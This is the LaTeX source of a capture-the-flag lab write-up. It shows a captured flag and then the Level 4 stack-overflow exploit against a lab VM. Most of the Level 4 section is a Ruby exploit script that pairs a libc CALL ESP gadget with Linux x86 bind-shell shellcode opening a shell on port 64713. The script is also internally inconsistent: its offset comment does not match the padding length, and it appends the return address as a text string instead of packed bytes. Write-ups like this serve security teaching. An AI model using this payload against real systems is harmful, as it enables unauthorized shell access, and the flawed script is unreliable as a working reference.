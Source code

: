 \documentclass[12pt, bibliography=totocnumbered]{article}
\newcommand{\ssection}[1]{%
  \section[#1]{\centering\normalfont\scshape #1}}
\begin{document}
Cool. Now, do the same thing by connecting to VM instead and get the flag:
\newline
\texttt{FLAG: \{\{04ded545cd7244d7916fdf49c20fc13df69b2def\}\}}

\newpage
\ssection{\textbf{Level 4}}

For this level, we use the same approach as the previous one. But, since we don't have \texttt{drop\_to\_shell()} function to help us out, we have to write our own shellcode to drop to shell.

Using the same method as Level 3, we find the offset for this program as well. and also find the offset for ESP when the program crashes. this gives the offset for top of stack so that we can place our shellcode on stack. 

\par Once we get the offset for return address and \texttt{ESP}, We have to find the address to either \texttt{JMP ESP} or \texttt{CALL ESP} in loaded shared library \texttt{LIBC}. This can be easily done by using \texttt{jmpcall esp libc} command in \texttt{gdb-peda}. Pick one of the address and start writing our exploit. 

For simplicity, I'm using Ruby to write exploit.
\begin{verbatim}
#!/usr/bin/env ruby
SomeJunk = "\x41" * 24 #Offset 48
Nops = "\x90"
Jmp_call_address = "\xd7\xa8\xf9\xf7" #0xf7f9a8d7 -- LIBC: Call ESP on VM
EIP = "0xbfc0cf40"
 
#shell 64713 port
Shellcode = "\x6a\x66\x58\x6a\x01\x5b\x99\x52\x53\x6a\x02\x89\xe1\xcd\x80"\
"\x52\x66\x68\xfc\xc9\x66\x6a\x02\x89\xe1\x6a\x10\x51\x50\x89\xe1\x89\xc6\x43"\
"\xb0\x66\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x52\x56\x89\xe1\x43\xb0\x66\xcd"\
"\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x6a\x0b\x58\x52\x68\x2f\x2f"\
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"
BreakPoint = "\xCC\xCC\xCC\xCC"
FinalPayload = SomeJunk + EIP + Nops*14 + Jmp_call_address
FinalPayload = FinalPayload + Shellcode + Nops*90 + BreakPoint*2
print FinalPayload
$stdout.flush
\end{verbatim}

Shellcode was borrowed from: \underline{\url{http://shell-storm.org/shellcode/files/shellcode-252.php}}
\end{document}

